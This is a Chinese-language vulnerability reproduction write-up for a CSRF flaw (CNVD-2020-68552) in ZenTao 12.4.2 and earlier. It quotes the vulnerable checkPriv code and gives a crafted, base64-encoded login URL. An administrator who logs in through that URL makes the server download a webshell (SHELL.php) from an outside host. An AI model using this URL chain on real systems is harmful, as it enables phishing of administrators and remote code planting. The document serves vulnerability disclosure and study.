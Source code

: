 # 

# 禅道 12.4.2 CSRF漏洞 CNVD-2020-68552

## 漏洞描述

可以针对禅道的部分模块制造恶意URL地址发送给管理员，当管理员登录时会执行模块的恶意请求,可用于进行钓鱼请求

## 漏洞影响

```
禅道 <= 12.4.2版本
```

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)

![](./images/202202162307092.png)

调用接口查询版本信息

```plain
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```

![](./images/202202162307154.png)

## 漏洞复现

这里利用 禅道 小于12.4.2 文件上传漏洞 CNVD-C-2020-121325(可参照上一篇文章) 来构造一个恶意的URL地址

查看**module/common/model.php**的**checkPriv**方法

```php
public function checkPriv()
{
    $module = $this->app->getModuleName();
    $method = $this->app->getMethodName();
    if($this->app->isFlow)
    {
        $module = $this->app->rawModule;
        $method = $this->app->rawMethod;
    }

    if(!empty($this->app->user->modifyPassword) and (($module != 'my' or $method != 'changepassword') and ($module != 'user' or $method != 'logout'))) die(js::locate(helper::createLink('my', 'changepassword')));
    if($this->isOpenMethod($module, $method)) return true;
    if(!$this->loadModel('user')->isLogon() and $this->server->php_auth_user) $this->user->identifyByPhpAuth();
    if(!$this->loadModel('user')->isLogon() and $this->cookie->za) $this->user->identifyByCookie();

    if(isset($this->app->user))
    {
        if(!defined('IN_UPGRADE')) $this->session->user->view = $this->loadModel('user')->grantUserView();
        $this->app->user = $this->session->user;

        if(!commonModel::hasPriv($module, $method)) $this->deny($module, $method);
    }
    else
    {
        $referer  = helper::safe64Encode($this->app->getURI(true));
        die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
    }
}
```

这里的代码片段为鉴权函数，可以看到最后一句代码

```php
$referer  = helper::safe64Encode($this->app->getURI(true));
            die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
```

所以当调用当前权限不允许的方法时，会进行跳转，并在**$referer**参数缓存调用的方法URL，当使用这个跳转的地址登录时则会直接调用此方法

**URL地址构造过程**

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=HTTP://peiqi.tech/SHELL.php
```

将**link参数**base64加密

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

将**referer参数**以 . 做分割base64加密两边字符

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=L3d3dy9pbmRleC5waHA.bT1jbGllbnQmZj1kb3dubG9hZCZ2ZXJzaW9uPTEmbGluaz1TRlJVVURvdkwzQmxhWEZwTG5SbFkyZ3ZVMGhGVEV3dWNHaHc=
```

![](./images/202202162307966.png)

将这个URL地址发送给管理员，当管理员登录时则会触发恶意文件下载

![](./images/202202162308602.png)
